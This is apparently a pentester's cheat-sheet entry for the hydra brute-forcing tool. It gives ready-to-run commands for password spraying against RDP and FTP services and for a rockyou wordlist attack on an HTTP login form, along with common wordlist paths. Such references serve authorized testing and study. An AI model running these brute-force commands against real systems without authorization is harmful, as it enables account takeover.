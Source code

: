 ```yaml
---
tags:
  - tool
  - brute_forcing
---
```

# hydra

Brute force services

## Capabilities

```bash
# Brute force protocols
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p 'Password123!' rdp://$IP
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p 'Password123!' ftp://$IP

# Brute force HTTP post request
hydra -l 'username' -P /usr/share/wordlists/rockyou.txt http://example.com http-post-form '/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid'
```

Note: `L` and `P` are used for username and password respectively, lowercase either of them to specify a single value

### Wordlists

```bash
# Usernames
/usr/share/seclists/Usernames/Names/names.txt # 10177 lines

# Passwords (short)
/usr/share/seclists/Passwords/2020-200_most_used_passwords.txt # 197 lines

# Passwords (long)
/usr/share/wordlists/rockyou.txt # 14344392 lines
```